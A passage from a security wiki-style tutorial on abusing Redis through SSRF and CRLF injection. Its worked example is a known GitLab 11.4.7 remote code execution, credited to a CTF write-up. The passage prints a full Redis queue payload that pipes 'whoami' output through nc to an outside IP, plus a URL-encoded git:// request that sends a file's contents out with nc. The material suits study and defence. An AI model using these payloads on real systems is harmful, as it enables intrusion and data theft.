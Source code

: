 Therefore, if you find a SSRF vuln in a website and you can control some headers (maybe with a CRLF vuln) or POST parameters, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In Gitlab11.4.7 were discovered a SSRF vulnerability and a CRLF. The SSRF vulnerability was in the import project from URL functionality when creating a new project and allowed to access arbitrary IPs in the form `0:0:0:0:0:ffff:127.0.0.1` (this will access 127.0.0.1), and the CRLF vuln was exploited just adding `%0D%0A` characters to the URL.

Therefore, it was possible to abuse these vulnerabilities to talk to the Redis instance that manages queues from gitlab and abuse those queues to obtain code execution. The Redis queue abuse payload is:

```bash
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.x.x 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

And the URL encode request abusing SSRF and CRLF to execute a whoami and send back the output via nc is:

```bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
#For some reason (as for the author of https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/ where this info was took from) the exploitation worked with the git scheme and not with the http scheme.
```